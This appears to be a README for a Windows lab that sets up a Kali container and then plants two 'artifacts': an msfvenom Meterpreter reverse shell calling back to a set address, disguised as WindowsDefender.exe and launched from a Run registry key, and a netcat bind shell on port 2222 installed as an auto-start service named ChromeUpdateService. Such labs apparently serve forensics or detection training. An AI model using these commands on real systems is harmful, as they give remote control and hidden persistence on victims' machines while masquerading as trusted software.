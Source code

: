 # Installation

- [Installation](#installation)
  - [Setup](#setup)
  - [Install Kali Container](#install-kali-container)
  - [Artifact 1: Reverse Shell in Registry](#artifact-1-reverse-shell-in-registry)
    - [Kali Linux](#kali-linux)
    - [Windows](#windows)
  - [Artifact 2: Bind Shell service](#artifact-2-bind-shell-service)
    - [Kali Linux](#kali-linux-1)
    - [Windows](#windows-1)

---

## Setup

The VM is using the **Windows Server 2019 with Container**.

<br/>

---

## Install Kali Container

First download **Kali Linux** and **Ubuntu 20.04** from the following site:

- https://docs.microsoft.com/en-us/windows/wsl/install-manual

<br/>

Run `powershell.exe` as admin and execute the following command:

```
Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
```

<br/>

Extract `<distro>.appx` using Powershell:

```
Rename-Item .\kali.appx .\kali.zip
Expand-Archive .\kali.zip .\kali
cd .\kali
Rename-Item .\Distro.....-amd64.appx .\kali.zip
Expand-archive .\kali.zip .\kali
cd .\kali
```

<br/>

Then run kali:

```
.\kali.exe
```

<br/>

Get the keyring deb link from https://http.kali.org/kali/pool/main/k/kali-archive-keyring/kali-archive-keyring_2020.2_all.deb.

```
wget https://http.kali.org/kali/pool/main/k/kali-archive-keyring/kali-archive-keyring_2020.2_all.deb
sudo apt install .\kali-archive-keyring_2020.2_all.deb
```

<br/>

Update packages:

```
apt update -y && apt upgrade -y && apt dist-upgrade -y
apt install kali-linux-core -y
```

<br/>

---

## Artifact 1: Reverse Shell in Registry

### Kali Linux

Prepare a reverse shell using `msfvenom` on Kali Linux:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.31.15.180 LPORT=4444 -f exe > WindowsDefender.exe
```

<br/>

Shift this on the Windows host `C:\Windows\System32\WindowsDefender.exe`

<br/>

### Windows

Open `cmd.exe` and run:

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsDefender /t REG_SZ /d "C:\Windows\System32\WindowsDefender.exe"
```

<br/>

---

## Artifact 2: Bind Shell service

### Kali Linux

Copy the `nc.exe` in `/usr/share/windows-binaries/nc.exe` to the Windows host `C:\Windows\System32\ChromeUpdate.exe`.

<br/>

### Windows

Create a service and start the service:

```
sc create ChromeUpdateService binpath= "cmd.exe /k C:\Windows\System32\ChromeUpdate.exe -L -p 2222 -e cmd.exe" start= auto
```

<br/>

---